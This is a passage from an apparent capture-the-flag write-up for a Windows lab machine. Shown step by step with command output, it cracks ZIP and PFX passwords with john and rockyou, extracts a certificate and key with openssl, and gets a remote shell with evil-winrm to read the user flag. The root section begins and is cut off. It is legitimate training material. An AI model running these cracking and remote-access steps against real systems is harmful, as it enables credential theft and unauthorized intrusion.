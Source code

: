     :::text
    → john hash -w=~/tools/password_lists/rockyou.txt
    Loaded 1 password hash (PKZIP [32/64])
    Press 'q' or Ctrl-C to abort, almost any other key for status
    supremelegacy    (winrm_backup.zip/legacyy_dev_auth.pfx)
    1g 0:00:00:00 DONE (2022-06-11 17:10) 3.225g/s 11204Kp/s 11204Kc/s 11204KC/s suziexx..supergau
    Session completed

I decompressed the archive using the password and got a file named `legacyy_dev_auth.pfx`. The `.pfx` files are
certificate (private an public keys) that can be used for authentication.

The certificate was protected by a password. So I used `pfx2john` and feed it to john (again)
and I got the password in a few seconds (again) still using the `rockyou` wordlist.

    :::text
    → john hash -w=~/tools/password_lists/rockyou.txt
    0g 0:00:00:03 0.79% (ETA: 17:28:34) 0g/s 44418p/s 44418c/s 44418C/s GATORS..14411441
    thuglegacy       (legacyy_dev_auth.pfx)
    1g 0:00:01:30 DONE (2022-06-11 17:23) 0.01101g/s 35599p/s 35599c/s 35599C/s thuglife03282006..thscndsp1
    Session completed

Using openssl I extracted the public private keys from the certificate (I used the same
password for the PEM pass phrase)

    :::text
    openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out cert.crt
    └─$ openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out cert.crt
    Enter Import Password:
    └─$ openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out key.pem
    Enter Import Password:
    Enter PEM pass phrase:
    Verifying - Enter PEM pass phrase:

I used `evil-winrm` to connect to the target using the certifiactes and grabbed the user flag.

    :::text
    └─$ evil-winrm -S -c cert.crt -k key.pem -i 10.129.71.83 #thuglegacy

    Evil-WinRM shell v3.3
    Enter PEM pass phrase:
    *Evil-WinRM* PS C:\Users\legacyy\Documents> type ..\Desktop\user.txt
    e7ac7c0f7d766c0f21f4005e1758af50


# Root

I checked my privileges on the box, but nothing interesting.

    :::text
    *Evil-WinRM* PS C:\Users\legacyy\Documents> whoami /all

    USER INFORMATION
    ----------------
